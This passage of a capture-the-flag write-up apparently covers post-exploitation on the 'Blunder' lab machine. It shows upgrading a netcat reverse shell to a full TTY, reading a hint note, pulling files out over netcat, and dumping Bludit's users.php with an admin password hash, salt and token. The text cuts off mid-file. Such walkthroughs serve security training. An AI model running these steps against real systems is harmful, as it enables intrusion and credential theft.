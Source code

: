 ```
#### Post Exploitation Enumeration 

The shell can be upgraded as usuall using:

```
$ which python
/usr/bin/python
$ python -c 'import pty;pty.spawn("/bin/bash")'
www-data@blunder:/$ ^Z
[1]+  Stopped                 nc -lnvp 443
root@kali:/var/www/html/pub# stty raw -echo
fg
enter
enter
```
Moving on to enumeration:

on the / directory there is an ftp directory, which is interesting since it was also mention in the first note.

**note.txt:**

```
www-data@blunder:/ftp$ cat note.txt 
Hey Sophie
I've left the thing you're looking for in here for you to continue my work
when I leave. The other thing is the same although Ive left it elsewhere too.

Its using the method we talked about; dont leave it on a post-it note this time!

Thanks
Shaun
```

Using netcat to pull the rest of the files (so the pdf can be opened in desktop mode)

![nc_pil](/images/blunder/nc_pil.png)


Next, enumerating files and folders in /var/www/ there is the older version of Bludit which we exploited and the newer verion as well.

Checking out interesting files here, espacially the databases directory in bl-content:
```
www-data@blunder:/var/www/bludit-3.9.2/bl-content/databases$ cat users.php 
<?php defined('BLUDIT') or die('Bludit CMS.'); ?>
{
    "admin": {
        "nickname": "Admin",
        "firstName": "Administrator",
        "lastName": "",
        "role": "admin",
        "password": "bfcc887f62e36ea019e3295aafb8a3885966e265",
        "salt": "5dde2887e7aca",
        "email": "",
        "registered": "2019-11-27 07:40:55",
        "tokenRemember": "",
        "tokenAuth": "b380cb62057e9da47afce66b4615107d",
        "tokenAuthTTL": "2009-03-15 14:00",
        "twitter": "",
        "facebook": "",
        "instagram": "",
        "codepen": "",
        "linkedin": "",
        "github": "",